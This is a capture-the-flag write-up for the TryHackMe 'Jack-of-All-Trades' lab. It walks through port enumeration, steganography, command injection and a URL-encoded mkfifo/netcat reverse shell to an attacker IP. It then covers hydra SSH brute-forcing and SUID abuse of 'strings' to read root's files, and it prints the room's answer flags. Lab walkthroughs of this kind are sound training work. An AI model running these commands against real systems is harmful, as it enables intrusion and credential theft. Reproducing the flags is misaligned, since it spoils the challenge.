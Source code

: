 # TryHackMe - Jack-of-All-Trades Write-Up

## 📌 Room Context
- Difficulty: Medium  
- Style: Boot-to-Root  
- Original Event: **Securi-Tay 2020**  
- Skills Tested: Enumeration, encoding/decoding, steganography, brute-forcing, reverse shells, privilege escalation  
- Author: Karthik
---

## 🔎 1. Enumeration

### Nmap Scan
```bash
nmap -sV ip
````
Results:

    Port 22/tcp → Apache (HTTP)

    Port 80/tcp → OpenSSH

👉 Services swapped: web runs on port 22, SSH on port 80.
Accessing Web Service

Firefox blocks HTTP on port 22.
Fix:

    Go to about:config.

    Add 22 to network.security.ports.banned.override.

    Visit:

Always show details

    http://10.10.115.169:22

### 2. Web Enumeration

    Source code → /recovery.php.

    Contains encoded hints: Base32 → Hex → ROT13 and Base64.

    Reveal:

        Password clue.

        Credentials hidden in header.jpg.

### 3. Steganography

Download image:

Always show details
```
wget http://10.10.115.169:22/header.jpg
```
Extract hidden file:

Always show details

steghide extract -sf header.jpg

Found cms.creds with username & password.
###💻 4. Initial Foothold

Login at /recovery.php.
Discovered command injection at ?cmd=.

Test:

Always show details
```
http://10.10.115.169:22/nnxhweOV/?cmd=id
```
### 5. Reverse Shell

Start listener:

Always show details

nc -lvnp 4444

Payload (URL-encoded):

Always show details
```
http://10.10.115.169:22/nnxhweOV/?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E%261|nc%2010.9.0.185%204444%20>%20/tmp/f
```
Got shell → upgraded with:

Always show details
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
### 6. User Flag

Found password list in /home/jack/.
Brute-forced SSH on port 80:

Always show details
```
hydra -l jack -P passwords.txt ssh://10.10.115.169:80
```
Logged in → user flag inside user.jpg:

move user.jpg to your machine

flag: securi-tay2020_{********************}

### Root Flag

Check SUID binaries:

Always show details
````
find / -perm -4000 -type f 2>/dev/null
````
Found /usr/bin/strings.
Read root flag:

Always show details

strings /root/root.txt

Root flag:

Always show details

securi-tay2020_{*****************}

🎯 8. Summary

    Enumeration: Odd ports → HTTP on 22, SSH on 80.

    Exploitation: Encoded hints, stego, CMS creds.

    Foothold: Command injection → reverse shell.

    User: Hydra brute-force SSH.

    Root: Abused SUID strings.

Flags

    User: securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}

    Root: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}

✅ Challenge complete — machine fully compromised.
